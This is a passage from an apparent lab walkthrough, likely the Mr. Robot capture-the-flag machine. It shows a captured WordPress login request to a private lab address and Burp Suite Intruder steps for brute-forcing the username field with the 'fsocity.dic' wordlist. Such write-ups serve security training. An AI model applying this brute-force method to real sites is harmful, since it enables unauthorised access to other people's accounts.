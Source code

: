 POST /wp-login.php HTTP/1.1

Host: 192.168.0.6

Content-Length: 98

Cache-Control: max-age=0

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

Origin: http://192.168.0.6

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.0.6/wp-login.php

Accept-Encoding: gzip, deflate, br

Cookie: wordpress_test_cookie=WP+Cookie+check

Connection: keep-alive



**log=test&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.0.6%2Fwp-admin%2F&testcookie=1**

5.Now select from log to pwd=test then click it to send 'to the intruder'
6.now select the test from the log field and add it as a variable.
7.Go to payloads settings select the load field.
8.Add the username list which we got it as "fsocity.dic"
9.start the attack
<img src="./img/Screenshot 2024-08-11 202802.png"></img>